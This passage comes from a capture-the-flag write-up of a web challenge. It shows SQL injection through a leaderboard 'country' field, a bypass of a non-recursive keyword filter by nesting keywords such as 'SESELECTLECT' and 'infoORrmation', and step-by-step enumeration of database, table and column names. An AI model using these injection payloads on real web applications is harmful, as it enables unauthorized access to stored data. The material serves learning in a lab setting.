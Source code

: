 We can test which words we will use while extracting the database are filtered with a payload like this:

- `gold=1,country="SELECT OR AND group_concat FROM WHERE '"`

![Web 80 Edit Leaderboard Filter](web_80_edit_leaderboard_filter.webp){: width="1000" height="500" }

We end up with: `group_concat FROM WHERE '`. So, `SELECT`,`OR` and `AND` must be filtered.

![Web 80 Leaderboard Update Filter](web_80_leaderboard_update_filter.webp){: width="1200" height="250" }

Looking for ways to bypass the filter, we can test if the replacement is recursive with the payload:

- `gold=1,country="SESELECTLECT"`

![Web 80 Edit Leaderboard Eight](web_80_edit_leaderboard_eight.webp){: width="1000" height="500" }

The country name ends up being `SELECT`. So, the replacement is not recursive; we can use this to bypass the filter.

- `SESELECTLECT` -> `SE[SELECT]LECT` -> `SELECT`

![Web 80 Leaderboard Update Eight](web_80_leaderboard_update_eight.webp){: width="1200" height="250" }

Now that we have a way to bypass the filter, we can modify our query from before to extract the database names like this:

- `gold=1,country=(seSELECTlect group_concat(schema_name) from infoORrmation_schema.schemata)` ->
- `gold=1,country=(se[SELECT]lect group_concat(schema_name) from info[OR]rmation_schema.schemata)` ->
- `gold=1,country=(select group_concat(schema_name) from information_schema.schemata)`

![Web 80 Edit Leaderboard Nine](web_80_edit_leaderboard_nine.webp){: width="1000" height="500" }

We get the database names.

- `mysql,information_schema,performance_schema,sys,phpmyadmin,bac_test`

![Web 80 Leaderboard Update Nine](web_80_leaderboard_update_nine.webp){: width="1200" height="250" }

We can get the table names for the `bac_test` database with the payload:

- `gold=1,country=(seSELECTlect group_concat(table_name) from infoORrmation_schema.tables WHERE table_schema='bac_test')`

![Web 80 Edit Leaderboard Ten](web_80_edit_leaderboard_ten.webp){: width="1000" height="500" }

There are two tables: `leaderboard` and `users`.

![Web 80 Leaderboard Update Ten](web_80_leaderboard_update_ten.webp){: width="1200" height="250" }

Getting the column names for the `bac_test.users` table.

- `gold=1,country=(seSELECTlect group_concat(column_name) from infoORrmation_schema.columns WHERE table_name='users' aANDnd table_schema='bac_test')`
